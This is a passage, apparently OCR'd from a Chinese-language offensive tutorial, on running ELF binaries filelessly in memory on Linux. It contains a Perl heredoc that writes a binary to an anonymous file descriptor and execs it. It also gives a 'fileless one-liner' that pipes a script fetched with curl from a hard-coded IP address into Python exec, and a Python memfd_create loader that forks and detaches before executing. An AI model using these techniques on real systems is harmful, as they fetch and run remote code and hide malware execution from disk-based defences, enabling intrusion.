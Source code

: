 ```shell
# Make a nice Perl file handle
open(my $FH, '>&='.$fd) or die "open: $!";
select((select($FH),$l=1)[0]);

# Load binary into anonymous file (i. e. into memory)
print "Writing ELF binary to memory...";
EOF
```



**第二部分**

```shell
perl -e '$/=\32;print"print \$FH pack q/H*/, q".(unpack"H*")."/\ or die qq/write: \$!/;\n"while(<>)' elfdemo >> elfload.pl
```



**第三部分**

```shell
cat >> elfload.pl <<EOF
print "done\n";

# Execute new program
print "Here we go...\n";
exec {"/proc/$$/fd/$fd"} "formsec"
        or die "exec: $!";
```



## 3 Python*

### 无文件一句话

```shell
curl -k -s "https://213.12.122.13:46379/ezNqxovBudSROFQgD3T26tmk7ar4ni/python/core.py" | python3 -c "for line in __import__('sys').stdin: exec(line)"
```

### 服务器端部署

1.示例加载器（部署在本地的elf内存加载器）

目标设备上访问本文件资源即可实现远程内存运行ELF。

```python
import ctypes
import os
binary = open('/usr/bin/ls','rb').read()
fd = ctypes.CDLL(None).syscall(319,"",1)
final_fd = open('/proc/self/fd/'+str(fd),'wb') 
final_fd.write(binary)
final_fd.close()
fork1 = os.fork()
if 0 != fork1: os._exit(0)
ctypes.CDLL(None).syscall(112)
fork2 = os.fork()
if 0 != fork2: os._exit(0)
os.execl('/proc/self/fd/'+str(fd),'argv0','-al')
```
